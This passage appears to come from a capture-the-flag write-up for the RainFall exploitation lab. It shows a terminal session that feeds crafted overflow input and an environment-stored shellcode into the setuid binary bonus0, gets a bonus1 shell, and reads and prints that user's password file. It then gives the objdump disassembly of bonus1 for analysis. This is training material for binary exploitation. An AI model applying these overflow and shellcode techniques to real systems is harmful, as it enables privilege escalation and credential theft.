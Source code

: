 ```
bonus0@RainFall:~$ (cat /tmp/input1; cat /tmp/input2; cat) |  env -i PATH=$PATH SHELLCODE=$SHELLCODE ./bonus0
 -
 -
BBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAA����A AAAAAAAAAAAAAA����A
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

our password is `cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9`

## bonus1
Here is the objdump for bonus1
```
08048424 <main>:
 8048424:       55                      push   ebp
 8048425:       89 e5                   mov    ebp,esp
 8048427:       83 e4 f0                and    esp,0xfffffff0
 804842a:       83 ec 40                sub    esp,0x40
 804842d:       8b 45 0c                mov    eax,DWORD PTR [ebp+0xc]
 8048430:       83 c0 04                add    eax,0x4
 8048433:       8b 00                   mov    eax,DWORD PTR [eax]
 8048435:       89 04 24                mov    DWORD PTR [esp],eax
 8048438:       e8 23 ff ff ff          call   8048360 <atoi@plt>
 804843d:       89 44 24 3c             mov    DWORD PTR [esp+0x3c],eax
 8048441:       83 7c 24 3c 09          cmp    DWORD PTR [esp+0x3c],0x9
 8048446:       7e 07                   jle    804844f <main+0x2b>
 8048448:       b8 01 00 00 00          mov    eax,0x1
 804844d:       eb 54                   jmp    80484a3 <main+0x7f>
 804844f:       8b 44 24 3c             mov    eax,DWORD PTR [esp+0x3c]
 8048453:       8d 0c 85 00 00 00 00    lea    ecx,[eax*4+0x0]
 804845a:       8b 45 0c                mov    eax,DWORD PTR [ebp+0xc]
 804845d:       83 c0 08                add    eax,0x8
 8048460:       8b 00                   mov    eax,DWORD PTR [eax]
 8048462:       89 c2                   mov    edx,eax
 8048464:       8d 44 24 14             lea    eax,[esp+0x14]
 8048468:       89 4c 24 08             mov    DWORD PTR [esp+0x8],ecx
 804846c:       89 54 24 04             mov    DWORD PTR [esp+0x4],edx
 8048470:       89 04 24                mov    DWORD PTR [esp],eax
 8048473:       e8 a8 fe ff ff          call   8048320 <memcpy@plt>
 8048478:       81 7c 24 3c 46 4c 4f    cmp    DWORD PTR [esp+0x3c],0x574f4c46
 804847f:       57
 8048480:       75 1c                   jne    804849e <main+0x7a>
 8048482:       c7 44 24 08 00 00 00    mov    DWORD PTR [esp+0x8],0x0
 8048489:       00
 804848a:       c7 44 24 04 80 85 04    mov    DWORD PTR [esp+0x4],0x8048580
 8048491:       08
 8048492:       c7 04 24 83 85 04 08    mov    DWORD PTR [esp],0x8048583
 8048499:       e8 b2 fe ff ff          call   8048350 <execl@plt>
 804849e:       b8 00 00 00 00          mov    eax,0x0
 80484a3:       c9                      leave
 80484a4:       c3                      ret
 80484a5:       90                      nop
 80484a6:       90                      nop
 80484a7:       90                      nop
 80484a8:       90                      nop
 80484a9:       90                      nop
 80484aa:       90                      nop
 80484ab:       90                      nop
 80484ac:       90                      nop
 80484ad:       90                      nop
```